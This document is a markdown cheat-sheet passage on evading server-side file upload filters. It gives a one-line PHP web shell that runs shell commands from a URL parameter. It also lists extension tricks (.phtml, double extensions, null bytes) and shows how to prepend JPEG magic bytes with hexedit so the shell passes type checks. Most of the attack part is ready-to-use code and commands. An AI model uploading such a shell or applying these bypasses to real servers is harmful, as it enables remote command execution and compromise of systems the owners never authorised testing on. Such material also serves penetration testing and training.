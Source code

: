 # Server-side Bypass
This is often done blind, through trial and error by sending requests.

# Test the server
Perform the following tests on the server to enumerate the filter.

## 1. Which files are allowed?
Upload valid files and enumerate the file types you can upload to the server.

## 2. Which files are filtered out?
Attempt to upload a variety of web / reverse shells in order to test the filters in place.

shell.php
```php
<?php
echo system($_GET['cmd']);
```

# Filter Evaison
Common upload filters and how to bypass them:

## Extension Filtering
Some servers will filter using common regex or not completely cover all possibilities. 

| Filename | Technique |
| -------- | --------- |
| `shell.phtml` | Unique extension |
| `shell.jpg.php` | Repeating extension
| `shell.php%00.pdf` | NULL bytes |


## Magic Number
A fairly reliable way to check the MIME type of a file. 

Linux determines file types based on magic numbers therefore we can use the built-in `file` command to test our payload.
[Magic Number Cheatsheet](../../../Cheatsheets/magic-numbers.md)

```sh
file shell.php

shell.php: PHP script, ASCII text
```

Open the file and put `AAAA` at the begining. This will help us identify it in hexeditor.

The `AAAA` is represented by `41` `41` `41` `41`. 

```sh
hexedit shell.php

00000000 41 41 41 41
```

Using the JPG magic number and testing with `file`.  `Ctrl + X` will quit `hexedit`

```sh
00000000 FF D8 FF DB

file shell.php


shell.php:  JPEG image data
```
